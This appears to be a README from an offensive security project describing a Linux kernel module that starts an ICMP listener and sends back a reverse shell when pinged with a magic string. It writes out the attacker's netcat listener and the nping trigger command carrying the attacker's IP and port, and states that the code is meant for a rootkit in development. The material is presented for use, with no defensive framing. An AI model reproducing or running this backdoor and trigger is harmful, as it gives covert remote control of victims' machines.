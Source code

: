 Kernel module invoked reverse shell
===================================

When this kernel module is installed
it invokes an icmp listener script,
this script sends a reverse shell in response
to an attacker ping.

Using nc -l [PORT] and then in a separate window running
nping --icmp -c 1 -dest-ip [victim ip] --data-string 'maK_it_$H3LL [attacker ip] [PORT]'
we can ping the victim machine and send ourselves back a reverse shell.
Make sure to have a netcat listener waiting on the port you specify before pinging.

This demonstrates how a user-land script/app can be invoked from the kernel

This functionality will be added as part of the final rootkit that is being
developed as part of this project http://r00tkit.me/
